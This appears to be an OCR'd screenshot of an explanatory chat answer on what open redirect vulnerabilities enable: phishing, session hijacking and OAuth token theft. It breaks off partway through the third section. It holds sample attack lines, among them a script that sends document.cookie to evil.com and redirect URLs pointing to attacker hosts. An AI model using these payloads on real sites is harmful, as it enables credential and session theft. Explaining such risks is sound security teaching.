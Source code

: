 

Great follow-up, Ali. If you're asking  **what things an Open Redirect vulnerability can cause** , here’s a complete breakdown of the **real-world consequences** and **attack scenarios** that stem from it:

---

## 🧨 1. **Phishing Amplification**

### 🔍 How:

* Attacker crafts a link like:
  ```
  https://trusted.com/redirect?url=https://phishing.com/login
  ```
* Victim sees the trusted domain (`trusted.com`) and clicks.
* Gets redirected to a fake login page.

### 🎯 Impact:

* Users enter credentials thinking it’s legitimate.
* Attacker steals login info, credit card data, or personal details.

---

## 🧨 2. **Session Hijacking via XSS or Cookie Theft**

### 🔍 How:

* Redirect leads to a site that runs malicious JavaScript:
  ```js
  <script>fetch('https://evil.com?cookie=' + document.cookie)</script>
  ```
* If the original site uses cookies for auth and doesn’t set `HttpOnly` or `SameSite`, attacker can steal them.

### 🎯 Impact:

* Full account takeover
* Unauthorized transactions
* Data exfiltration

---

## 🧨 3. **OAuth Token Theft**

### 🔍 How:

* In OAuth flows, redirect URIs are used to deliver tokens.
* If attacker can inject their own redirect URI:
  ```
  https://trusted.com/redirect?url=https://evil.com/capture-token
  ```
* They intercept the token meant for the user.
